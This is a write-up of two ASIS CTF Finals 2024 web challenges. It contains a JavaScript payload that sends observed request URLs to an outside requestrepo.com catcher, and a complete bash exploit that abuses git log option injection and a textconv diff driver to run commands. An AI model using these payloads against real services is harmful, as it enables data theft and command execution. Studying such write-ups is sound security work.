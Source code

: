 ```yaml
---
title: ASIS CTF Finals 2024 Write-Up
date: 2024-12-29T21:24:51+08:00
image: https://asisctf.com/images/logo-new-black.png
lang: en
tags:
-   writeup
-   ctf
---
```


Write-up for [ASIS CTF Finals 2024](https://ctftime.org/event/2403) — Web challenges fetch-box and gitmails.

<Excerpt />

## fetch-box (19 solves)

Use `PerformanceObserver` to observe `fetch` requests:

```javascript
new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
        if (entry.name.includes('/ping?')) {
            location = 'https://*.requestrepo.com/' + entry.name;
        }
    });
}).observe({entryTypes: ['resource']});
```

BTW, service worker does not work because it's not HTTPS.

## gitmails (5 solves)

### `git log` option injection

```python
            emails = check_output(
                ['git', 'log', '--pretty=format:%ae', 
                *([f'--author={author}'] if author else []),
                branch],
                cwd=repo_dir
```

Here the `branch` is supposed to be a branch, but it will be an option if it starts with `-`.

The `git` CLI does not allow such branch names, but we can modify the refs directly. For example:

```bash
cp .git/refs/heads/master .git/refs/heads/--output=config
```

### `git log --output` for file writing

We can use `git log --output` to write the log to arbitrary file. Find this in `man git log` or [git | GTFOArgs](https://gtfoargs.github.io/gtfoargs/git/).

As `--pretty=format:%ae` is set, we can use the email of each commit for each line in the output, e.g.:

```bash
GIT_AUTHOR_EMAIL="pager = /readflag" git commit --allow-empty -m nothing
GIT_AUTHOR_EMAIL='[core]' git commit --allow-empty -m nothing
```

### Approaches that do not work

-   `core.fsmonitor`: Does not work in bare repository.
-   `core.pager`: The output pipes into the `check_output` function without an interactive tty, so Git does not use a pager.
-   `core.alternateRefsCommand`: Need a known path to an `objects` directory that is not the current repository.
-   `diff.external` / `diff.<driver>.command`: Need both `-p` and `--ext-diff` but we can only inject a single option.

### `textconv` for command execution

`diff.<driver>.textconv` can be used to execute arbitrary command with `git log -p`.

The `textconv` command is called as `<cmd> <filename>`, so we can use `textconv = /readflag '--give-me-the-f|ag' | tee` to output the flag.

We need to set the diff driver in the `info/attributes` file, such as `* [diff=flag]` and `[diff "flag"] textconv = /readflag`.

However, we only have a single commit log (the branch argument is used as an option instead), so we will have identical `config` and `info/attributes`, but they have different syntax and contents.

The `config` needs to be completely valid, while `attributes` may have syntax errors. So we can append `a= diff=flag` to `config`, which is the attribute we need and also a valid line in `config`. Then add a file with name `a=` in the repository to see the diff.

### Hosting the repository

If we don't want to use a public service like GitHub, we should host the repository to support read-only HTTP clone.

It's actually super easy. Just run `git --bare update-server-info` in the `.git` directory and run an HTTP server.

### Final script

```bash
#!/bin/bash

set -euo pipefail

mkdir exp
cd exp
git init

touch a=
git add .
GIT_AUTHOR_EMAIL='a= diff=flag' git commit -m nothing
GIT_AUTHOR_EMAIL="textconv = /readflag '--give-me-the-f|ag' | tee" git commit --allow-empty -m nothing
GIT_AUTHOR_EMAIL='[diff "flag"]' git commit --allow-empty -m nothing

cd .git
cp refs/heads/master refs/heads/--output=config
mkdir refs/heads/--output=info
cp refs/heads/master refs/heads/--output=info/attributes
cp refs/heads/master refs/heads/-p

git --bare update-server-info
python -m http.server 1337
```

Then ask the challenge server to clone your HTTP git server.

